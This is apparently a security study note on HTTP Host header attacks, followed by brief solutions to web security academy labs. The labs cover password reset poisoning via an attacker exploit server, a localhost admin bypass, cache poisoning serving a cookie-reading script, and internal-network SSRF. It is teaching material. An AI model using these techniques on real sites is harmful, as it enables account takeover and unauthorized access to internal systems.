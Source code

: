 # HTTP Host header attacks

## 🔹 What is the HTTP Host header?
- When you type a website like https://example.com into your browser, your browser sends a request to the server.   - But here’s the thing:
     - Many websites share the same IP address (like apartments in a single building).
     - The Host header in HTTP is basically the part of the request that says “Hey server, I want the website example.com, not the other sites living on the same IP.”
     - 👉 Example:
     ```bash 
     GET /index.html HTTP/1.1
     Host: example.com
    ```
    - This tells the server, “Please give me the homepage of example.com.”

## 🔹 What is the purpose of the HTTP Host header?
- Its main purpose is virtual hosting.
- Since multiple websites can run on one server (same IP), the Host header makes sure the server knows which website you actually want.
- Without it, the server would be confused about which site’s content to send you.
- 👉 Think of it like telling a receptionist in a big office building “I’m here to see the Marketing Department (Host: example.com)” instead of just walking in blindly.

## 🔹 How does the Host header solve this problem?
- Imagine one IP = one big apartment building.
- Each flat = one website.
- When you arrive, you must tell the guard which flat (website) you’re visiting.
- That’s exactly what the Host header does — it guides the server to the right “flat” (site) inside a shared “building” (IP).

## 🔹 What is an HTTP Host header attack?
- Here’s where things get interesting 😈.
- If the application trusts the Host header too much, an attacker can tamper with it to trick the website into doing dangerous things.
- 👉 Example attack:
    ```
    GET /reset-password HTTP/1.1
    Host: attacker.com
    ```
- If the site uses the Host header to build password reset links, the victim might receive a link like: http://attacker.com/reset?token=12345
- 😱 Now the victim thinks it’s safe, but the attacker gets the reset link on their domain!

## 🔹 How do Host header vulnerabilities arise?
- They happen when developers don’t validate the Host header properly and just trust it blindly.
- Some risky places:
    - Password reset links (in emails)
    - Absolute URLs in redirects
    - Caching mechanisms
    - Security filters / firewalls
- If the Host header is manipulated, it can:
    - Point users to malicious sites
    - Poison caches (cache poisoning)
    - Bypass security checks
##  🔹 Exploiting Host header vulnerabilities
- Attackers can use this in different ways:
  1. Password reset poisoning – Hijacking reset links sent to users.
  2. Web cache poisoning – Serving malicious content to many users by tricking the cache.
  3. SSRF (Server-Side Request Forgery) – Forcing the server to make requests to internal systems.
  4. Bypassing access controls – If the app checks “Host” to allow/deny requests, attackers can fake it.

### ✅ In Simple words:

Host header = the “address label” telling the server which website you want.
Purpose = makes shared hosting possible.
Problem solved = without it, servers wouldn’t know which site to show.
Attack = bad guys forge this label to trick the website.
Vulnerability cause = developers trusting user input (Host header) without checking.
Exploitation = password reset hijack, cache poisoning, SSRF, phishing-style tricks.



# 📜 LABS

## Lab: Basic password reset poisoning

- Basic Password Reset Poisoning – Short Solution:
- Forgot Password (your account) → get email → reset password.
- In Burp, find POST /forgot-password, send to Repeater.
- Change Host to random → see email with random host → works.
- In Repeater, set:
    ```bash
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    username=carlos
    ```
    → Send.
- Exploit server → Access log → copy Carlos’s temp-forgot-password-token.
- Open your original reset URL → replace token with Carlos’s → set new password.
- Login as carlos → Lab Solved.


## Lab: Host header authentication bypass
- Send GET / to Repeater, change Host to anything → still 200 OK.
- Visit /robots.txt → find /admin. | use **dirb/feroxbuster** to find admin page
- Request /admin → access denied (local only).
- In Repeater, set Host: localhost → access admin panel.
- Change request to:
```
GET /admin/delete?username=carlos
Host: localhost
```
- → Send → Lab Solved.

## Lab: Web cache poisoning via ambiguous requests
- Send GET / to Repeater, add cache buster /?cb=123.
- Add second Host header → reflected in /resources/js/tracking.js.
- Create /resources/js/tracking.js on exploit server with:
    ```js
    alert(document.cookie)
    ```
- In Repeater, send:
    ```http
    GET / HTTP/1.1
    Host: LAB-ID.web-security-academy.net
    Host: EXPLOIT-SERVER-ID.exploit-server.net
    ```
- Repeat until cached with your payload.
- Open cached page in browser 
  → alert() fires → Lab Solved.

## Lab: Routing-based SSRF
- Send GET / to Repeater, replace Host with Collaborator payload → send → confirm DNS hit in Collaborator.
- Send GET / to Intruder, set:
 ```http
 Host: 192.168.0.§0§
 ```
- Payload: Numbers 0–255, uncheck Update Host header to match target → start attack.
- Find 302 redirect to /admin, send to Repeater, request /admin → get admin panel.
- Copy CSRF token + session cookie from /admin.
- Craft:
 ```http
 POST /admin/delete?csrf=<TOKEN>&username=carlos
 Cookie: <session-cookie>
 ```
- → send → Lab Solved.